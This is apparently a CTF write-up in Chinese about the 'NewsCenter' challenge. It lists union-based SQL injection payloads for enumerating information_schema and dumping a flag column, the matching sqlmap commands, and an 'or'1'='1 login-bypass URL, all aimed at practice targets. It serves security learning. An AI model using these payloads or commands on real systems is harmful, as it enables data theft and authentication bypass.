 # NewsCenter

## 目标

简单的SQL注入，读取 information_schema 元数据，然后读取flag。
sqlmap 也可解。

## 环境
windows

## 工具
sqlmap

## 分析过程

1.初步探测,发现搜索框存在注入 ' union select 1,2,3 #

2.获取数据库名，表名 ' and 0 union select 1,TABLE_SCHEMA,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS #

3.获取news 表的字段名，数据类型 ' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='news'#

4.获取f1agfl4gher3 字段名 数据类型 ' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='secret_table'#

5.得到flag ' and 0 union select 1,2,fl4g from secret_table #


## sqlmap版本


1.获取注入点

```bash
sqlmap -u http://192.168.100.161:53459 --data "search=df"
```


2.获取数据库信息

```bash
sqlmap -u http://192.168.100.161:53459 --data "search=df" -dbs
```


3.获取库内表信息

```bash
sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news --tables
```


4.获取表内字段信息

```bash
sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news -T secret_table --columns
```


5.获取字段内容，得到flag

```bash
sqlmap -u http://192.168.100.161:53459 --data "search=df" -D news -T secret_table -C "fl4g" --dump
```

# 万能密码

http://f7c0ad9c-3f3f-443b-a0ef-6faf2b97c32c.node3.buuoj.cn/check.php?username=admin'or'1'='1&password=admin'or'1'='1


# 随便注

https://www.cnblogs.com/chalan630/p/12583667.html


# [SUCTF 2019]EasySQL1

https://www.cnblogs.com/ophxc/p/12879732.html

